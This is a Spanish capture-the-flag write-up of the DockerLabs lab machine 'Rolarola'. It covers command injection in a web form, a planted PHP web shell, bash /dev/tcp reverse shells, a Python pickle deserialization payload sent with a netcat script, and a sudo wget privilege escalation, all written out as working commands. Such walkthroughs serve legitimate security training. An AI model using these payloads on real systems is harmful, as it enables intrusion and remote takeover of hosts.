## FASE DE ENUMERACIÓN

Vamos a enumerar la máquina víctima descargada de `https://dockerlabs.es/` y de nombre Rolarola.

Su IP es `172.17.0.2`



Realizamos un escaneo de puertos y si hay alguno abierto comprobamos que servicios corren por él así como sus versiones por si hay alguna vulnerabilidad:

```bash
sudo nmap -sS -sCV --open -p- --min-rate 5000 172.17.0.2 -vvv -oN nmap
```
```
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.66 ((Unix))
|_http-title: Mi primer web
|_http-server-header: Apache/2.4.66 (Unix)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
MAC Address: 02:42:AC:11:00:02 (Unknown)
```





Solo tenemos el puerto 80 abierto corriendo HTTP, así pues sin más que hacer vamos a visitar la página





Vemos un panel interesante, pero antes de probar nada, realizo un fuzzing para ver si hay algo además del panel.


```bash
gobuster dir -u "http://172.17.0.2/" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt, ,html
```
Vemos tres rutas:
```
/index.php            
/names.txt           
/server-status        
```

`index.php` entiendo que sea la página que visitamos antes, `server-status` normalmente no tenemos permisos para verla, pero hay que comprobarla
por si acaso y `names.txt` que suena bien.





Comprobando `names.txt` compruebo que está vacía y que `index.php` es la pagina de inicio, entonces voy a ver como se comporta la página.

Introduzco una frase simple `Hola hola cara cola`




Le doy a enviar y veo como se comporta y reporta la frase




Compruebo que pasa si le doy a `no tocar` y tambien nos reporta la frase




En un principio pensé en alguna inyeccion xss y no tuvieron exito




Así pues intenté inyecciones con `;` `&` ` `` ` y funcionaron:

```bash
hola;id
hola&id
hola`id`
````

dando al botón no tocar nos reporta la salida:











Por lo que veo se puede escapar el texto y se ejecutan los comandos, entonces vuelvo al `names.txt` y veo que la salida se imprime en ese archivo.


Utilicé este método para enumerar la máquina sin exito así pues decidí probar a lanzar una revershell.

1-Compruebo si dispone de wget:











2-hago un php malicioso en mi máquina atacante:
```bash
echo -n '<?php system($_GET["cmd"]); ?>' >cmd.php

```




3-Monto un servidor http con python en mi máquina atacante:

```bash
sudo python3 -m http.server 80
```





4-hago una peticion con wget para alojar mi página:

```bash
nana&wget http://172.17.0.1/cmd.php
```





Vemos como la solicita y recibe:




5-Comprobamos que se ha alojado correctamente:

```bash
asd&ls
````





6-Vemos que se ha alojado, ahora vamos a nuestra página y comprobamos que funciona con un simple `id`

URL-->`http://172.17.0.2/cmd.php?cmd=id`




7- lanzamos una reverse shell:

nos pornemos en escucha en nuestra máquina atacante por el puerto 445:

```bash
sudo nc -nvlp 445
```





creamos el payload, nos vamos a la pagina `https://www.revshells.com/` y rellenamos los datos:


lo ajustamos un poco (aunque así tal cual valdría):

```bash
bash -c "bash -i >& /dev/tcp/172.17.0.1/445 0>&1"
```

ahora lo urlencodeamos, vamos a esta página por ejemplo `https://www.urlencoder.org/`:





nos da como resultado:
```
bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F172.17.0.1%2F445%200%3E%261%22
```

8-lo incorporamos como cmando a nuesta pagina con payload:


```bash
http://172.17.0.2/cmd.php?cmd=bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F172.17.0.1%2F445%200%3E%261%22
```


comprobamos si nos ha llegado la revshell:





Pues estamos dentro


## ESCALADA DE PRIVILEGIOS


lo primero vamos a hacer un tratamiento de la tty:

```bash
python3 -c 'import pty; pty.spawn("/bin/sh")'
Ctrl+z para salir y dejarlo en segundo plano
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
stty rows 54 columns 235 en mi caso son estas las dimensiones con stty -a en una consola nueva puedes ver tus dimensiones
```


Después de buscar bits SUId, capabilities, variables de entorno etc no veo nada, pero en la carpeta `/opt` veo un archivo interesante





lo traigo a mi máquina atacante, primero busco si dispone de python y al ver que dispone de python 3 monto un servidor para poder bajar el archivo:


```bash
which python3
python3 -m http.server 2222
```





desde mi máquina atacante me bajo los archivos:


```bash
wget -r http://172.17.0.2:2222/.git/
```





Ahora me dispongo a mirar que contiene el git, vamos a mirar el historial de todas las ramas con `git log --all` pero
nos da un error que solucionamos con el siguiente comando:

```
find .git -name "index.html*" -delete
```





ahora si podemos ver el historial, al mirarlo solo vemos una rama, y vamos a ver los cambios que ha tenido:
```
 git log -p "119ed670ec345e6e9fa326a239b77b5ea81b11ba"
```




vemos un /app.py y que ha tenido cambios y su autor


Nos vamos a la máquina victima y miramos los procesos que se estan ejecutando en el sistema

```
ps aux
```




Vemos a matsi ejecutando `/home/matsi/proyect/app.py` 

vamos a hacer una consulta rápida con:

```bash
watch -n 1 "ps aux | grep app.py | grep -v grep"
```
hay tres opciones:

1-Si sale y entra → se ejecuta a intervalos

2-Si siempre está → daemon/servicio

3-Si desaparece y vuelve → cron o loop externo

Al ver que siempre está hay un servicio que lo ejecuta





Tambien comprobamos si el puerto 6969 esta abierto:

```bash
netstat -tulnp
```

y paree que todo cuadra 





Así pues ahora si que nos vamos a centrar en el script, despues de investigar como un perro porque ando flojo descubro que tiene una vuln
con pickle.loads(), la cosa es que al deserializar, python hace algo como `funcion(*argumentos)` entonces si en `__reduce__` tú devuelves `return os.system, ("comando",)`
python ejecuta `os.system("comando")` ...nada peligroso xD

```
https://github.com/miguelgrinberg/python-socketio/security/advisories/GHSA-g8c6-8fjj-2r4m
```
y utilizando esto como base:

```
https://www.hackingarticles.in/python-serialization-vulnerabilities-pickle/
```
 me monto un script, lo  primero es entender el flujo de app.py


**Explicación de alguien que esta flojo en el tema**

1-app.py es un servicio TCP que:

 Escucha en 127.0.0.1:6969

 Acepta conexiones (por ejemplo con nc)

 Ofrece un menú con dos opciones:

 1) Leer objetivos

 2) Escribir nuevo objetivo

 Los datos se guardan en un archivo: `objetivos.bin`


 2-El servidor arranca y se queda esperando
  ```
 s.bind((HOST, PORT))
 s.listen(1)
 ```
 Esto significa:

 El programa queda escuchando

 Acepta conexiones una por una

 No se cierra nunca (while True)

Cuando haces `nc 127.0.0.1 6969` Te conectas a este socket.

3-Al conectarte, siempre te muestra el menú
```
 send(conn, "1) Leer objetivos\n2) Escribir nuevo objetivo\n> ")
 opcion = recv_text(conn)
```
 El servidor te pregunta y tu respondes 1 o 2, te pide nombre, edad, pero es de relleno porque no guarda nada

 Aquí pasa algo crítico `recv_bytes()` recibe bytes crudos sin validar ni nada y guarda los bytes tal cual `guardar_objetivo(blob)`
 Dentro de guardar_objetivo
 ```
size = len(blob).to_bytes(4, "big")
f.write(size + blob)
```
y aqui es donde se puede guardar un pickle malicioso

aqui viene la madre del cordero, con la opcion 1 lee objetivos.bin en binario, repito lee exactamente esos bytes 
```
data = f.read(size)
```
y pickle.loads() lo ejecuta sin más


Resumen del flujo completo:

1-Opción 2 guarda bytes controlados por ti

2-Se escriben en disco sin validación

3-Opción 1 los lee

4-pickle.loads() los ejecuta

5-Tu comando se ejecuta como el usuario del servicio (matsi)

**fin explicación**


Después de hacer unas pruebas y darme de cabezazos utilizando como base esta página 
```
https://www.hackingarticles.in/python-serialization-vulnerabilities-pickle/
```
 lo primero quehago e sun script con la carga maliciosa llamado `generador_codigo`

 ```bash
import pickle
import os

class Reverse_shell_atacante:
    def __reduce__(self):
        ejecutar = (
            'bash -c "bash -i >& /dev/tcp/172.17.0.1/4444 0>&1 &"'
        )
        return os.system, (ejecutar,)

with open("salida.bin", "wb") as f:
    f.write(pickle.dumps(Reverse_shell_atacante()))
```

los cambios respecto al de la pagina es quitar lo que no me valia y la modificacion para llamar a la reverse

lo ejecuto con:

```
python3 generador_codigo
```
 y me crea salida.bin, que es donde está serializada la data, aquí es donde reside el problemilla que me encontré porque para enviar la data
 no vale con poner el archivo en el programa por nc, tiene que ir en crudo para que lo guarde como data y creo otro script para automatizar el envío llamado run.sh, acordaros del `__reduce__()` de arriba, 
 después ejecutamos run.sh:

 ```bash
#!/bin/sh

(
  echo "2"; sleep 0.5   # Opción 2
  echo "x"; sleep 0.5   # Nombre (da igual)
  echo "1"; sleep 0.5   # Edad (da igual)
  cat salida.bin       # Payload binario
) | nc -q 1 127.0.0.1 6969
```
doy permisos de ejecución:

```
chmod +x run.sh
```

después me pongo en escuchar por el puerto 4444 en mi máquina atacante,



lanzo el script run.sh:

```
./run.sh
```

automatiza el envió de payload malicioso
Después de que se ejecute vuelvo a llamar al programa app.py con nc

```bash
nc 127.0.0.1 6969
```
y elijo la opción 1 en el momento de elegirla, me hace la rev y ya soy matsi.




## ESCALANDO A ROOT

Hacemos tratamiento de la tty:

```bash
python3 -c 'import pty; pty.spawn("/bin/sh")'
Ctrl+z para salir y dejarlo en segundo plano
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
stty rows 54 columns 235 en mi caso son estas las dimensiones con stty -a en una consola nueva puedes ver tus dimensiones
```

 Miramos si hay algo que podamos ejecutar con privilegios sudo:

 ```bash
sudo -l
```
```
(ALL : ALL) NOPASSWD: /usr/bin/wget
```




Nos vamos a `https://gtfobins.org/gtfobins/wget/` ya buscando el binario wget y vemos como explotarlo
Seguimos los pasos adecuandolo un poco:

```
echo -e '#!/bin/sh\n/bin/sh 1>&0' >/tmp/temporal
chmod +x /tmp/temporal
sudo /usr/bin/wget --use-askpass=/tmp/temporal 0
```




